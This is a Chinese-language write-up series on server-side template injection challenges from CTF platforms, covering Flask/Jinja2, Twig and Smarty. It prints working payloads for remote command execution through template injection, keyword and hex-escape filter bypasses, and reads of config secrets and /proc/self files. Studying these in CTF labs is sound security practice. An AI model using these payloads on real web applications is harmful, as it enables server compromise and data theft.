

## SSTI：

## 目录

### 简单

-   ~~[CSCCTF 2019 Qual]FlaskLight~~

### 签到

-   ~~[BJDCTF2020]Cookie is so stable twig模板注入~~
-   ~~[WesternCTF2018]shrine 想方设法获取config~~
-   ~~[CISCN2019 华东南赛区]Web11 smarty模板注入~~
-   ~~[BJDCTF2020]The mystery of ip~~
-   ~~[GYCTF2020]FlaskApp debug模式一定条件下可以窃取出来pin码命令执行，但是题目过滤的不够严格导致可以直接打，比签到难一点~~
-   ~~[pasecactf_2019]flask_ssti 编码绕过~~
-   [GWCTF 2019]你的名字
-   [CISCN2019 总决赛 Day1 Web3]Flask Message Board

### 中等

-   [护网杯 2018]easy_tornado 因为框架比较冷门，如果不看WP的话需要自己手动翻手册，我觉得算中上偏难的题目。
-   [CISCN2019 华东南赛区]Double Secret 国赛半决赛因为大家互相出题所以都互相恶心，这题整个MD4，线下环境怎么打？

### 困难

-   [QWB2021 Quals]托纳多

### 脑洞

-   [RootersCTF2019]I_<3_Flask 用name注入。？怎么想到的

## Writeup

### [CSCCTF 2019 Qual]FlaskLight


发现提示


测试成功


列出所有子类


放入find.py跑一下敏感函数


构造payload

```python
{{[].__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['os'].popen(cat /xxx/flag)}}
```

出现未知错误


这里应该是关键字过滤

那就绕它！

```python
{{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('whoami').read()}}
```


同理可构造payload

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['__import__']('os').popen('whoami').read()}}
```

读取flag

```python
http://91ff8d9a-4ad0-491a-8d5d-c55157088e4f.node4.buuoj.cn:81/?search={{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek ').read()}}
```


### [BJDCTF2020]Cookie is so stable


存在模板注入


判断为twig注入

payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

写入输入框没有效果

hint页面有提示


抓包分析


发现cookie中有user接受我们输入的值，猜测这个模板注入参数在cookie中



成功获得flag

### [WesternCTF2018]shrine 想方设法获取config

进去源码如下

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

第一个路由是显示源码的，第二个路由可以传入参数，而且有黑名单过滤，猜测要读取配置文件


测试一下存在模板注入

要利用模板注入来读取配置，config和self被过滤，但我们仍然可以利用url_for()和get_flashed_messages()函数来读取config


发现


current_app意思应该是当前app，那我们就当前app下的config


flag出来了

最终payload

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config['FLAG'])}}
```

同理

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

### [CISCN2019 华东南赛区]Web11 smarty模板注入


敏感点X-Forwarded-For


会随X-Forwarded-For的变化而变化


存在模板注入

```
X-Forwarded-For: {$smarty.version}
```


判断该模板为smart，版本号为3.1.30

#### `{if}`标签

官方文档中的描述：

- Smarty的`{if}`条件判断和PHP的if非常相似，只是增加了一些特性
- 每个`{if}`必须有一个配对的`{/if}`，也可以使用`{else}` 和 `{elseif}`
- 全部的PHP条件表达式和函数都可以在if内使用，如`||`, `or`, `&&`, `and,` `is_array(),` 等等，如：`{if is_array($array)}{/if}`

payload

```python
{if phpinfo()}{/if}
```


### [BJDCTF2020]The mystery of ip 


和上道题很相似,测试一下


模板注入有了


还是smart模板

和上道题一模一样，直接拿下


### [GYCTF2020]FlaskApp


hint:失败的意思就是，要让程序运行报错,报错后会暴露源码。

base64decode在不会解析的时候就会报错。


拿到源码

```python
@app.route('/decode',methods=['POST','GET'])

def decode():

    if request.values.get('text') :

        text = request.values.get("text")

        text_decode = base64.b64decode(text.encode())

        tmp = "结果 ： {0}".format(text_decode.decode())

        if waf(tmp) :

            flash("no no no !!")

            return redirect(url_for('decode'))

        res =  render_template_string(tmp)

        flash( res )
```

应该存在模板注入，测试一下


模板注入有了

上payload

```python
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}
```


被这里的waf过滤了

读取下app.py

```python
{{ c.__init__.__globals__['__builtins__'].open('app.py', 'r').read() }}
```


```python
from flask import Flask,render_template_string
from flask import render_template,request,flash,redirect,url_for
from flask_wtf import FlaskForm
from wtforms import StringField, SubmitField
from wtforms.validators import DataRequired
from flask_bootstrap import Bootstrap
import base64
 
app = Flask(__name__)
app.config['SECRET_KEY'] = 's_e_c_r_e_t_k_e_y'
bootstrap = Bootstrap(app)
 
class NameForm(FlaskForm):
    text = StringField('BASE64加密',validators= [DataRequired()])
    submit = SubmitField('提交')
class NameForm1(FlaskForm):
    text = StringField('BASE64解密',validators= [DataRequired()])
    submit = SubmitField('提交')
 
def waf(str):
    black_list = ["flag","os","system","popen","import","eval","chr","request",
                  "subprocess","commands","socket","hex","base64","*","?"]
    for x in black_list :
        if x in str.lower() :
            return 1
 
 
@app.route('/hint',methods=['GET'])
def hint():
    txt = "失败乃成功之母！！"
    return render_template("hint.html",txt = txt)
 
 
@app.route('/',methods=['POST','GET'])
def encode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64encode(text.encode())
        tmp = "结果  :{0}".format(str(text_decode.decode()))
        res =  render_template_string(tmp)
        flash(tmp)
        return redirect(url_for('encode'))
 
    else :
        text = ""
        form = NameForm(text)
        return render_template("index.html",form = form ,method = "加密" ,img = "flask.png")
 
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
        flash( res )
        return redirect(url_for('decode'))
 
    else :
        text = ""
        form = NameForm1(text)
        return render_template("index.html",form = form, method = "解密" , img = "flask1.png")
 
 
@app.route('/<name>',methods=['GET'])
def not_found(name):
    return render_template("404.html",name = name)
 
if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000, debug=True)
```

```python
 def waf(str): black_list = ["flag", "os",
        "system", "popen", "import", "eval", "chr", "request",
        "subprocess", "commands", "socket", "hex", "base64", "*", "?"]
```

我们发现waf过滤了这些关键词，我们要进行绕过

```python
{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}

```


读取下flag

```python
{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_f'+'lag.txt', 'r').read() }}
```


读取使用切片省去了拼接flag的步骤

```python
{{ c.__init__.__globals__[‘__builtins__‘].open(‘txt.galf_eht_si_siht/‘[::-1],‘r‘).read() }}
```

### [pasecactf_2019]flask_ssti 编码绕过


存在模板注入


列举子类被禁止

经过测试，发现是 __   .    '  被过滤


转16进制绕过


exp 

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("whoami")["read"]()}}
```


解法一:

读取app.py源码,发现:

```python
def encode(line, key, key2): return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))
app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT') 
```

读取config，flag值为

```
'-M7\x10w\x12d9cT#`}\x0e\x1e\x0fiS(D\x1e\x13X\x17{n\x03g\x02\t\x10[#\x07/(Ak\x15^NG'}> 
```

解密脚本:

```python
key='GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3'
key2='xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'
flag_encoded='这里放加密后的flag'
flag=''
for x in range(len(flag_encoded)):
    for i in range(33,127):
        if flag_encoded[x]==chr(x ^ i ^ ord(key[::-1][x]) ^ ord(key2[x])):
            flag+=chr(i)
            print(flag)
```


解法二:

`/proc/self`表示当前进程目录

获取当前进程打开的文件内容:cat /proc/self/fd/{id}

**注意：**在真正做题的时候，我们是不能通过命令的方式执行通过cat命令读取cmdline的。因为如果 cat读取/proc/self/cmdline/的话，得到的是 cat进程的信息。所以我们要通过题目的当前进程使用读取文件（比如，文件包含漏洞，，SSTI，，file:\\\本地读取，，../../../目录穿越，，SSRF）的方式读取/proc/self/cmdline

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```

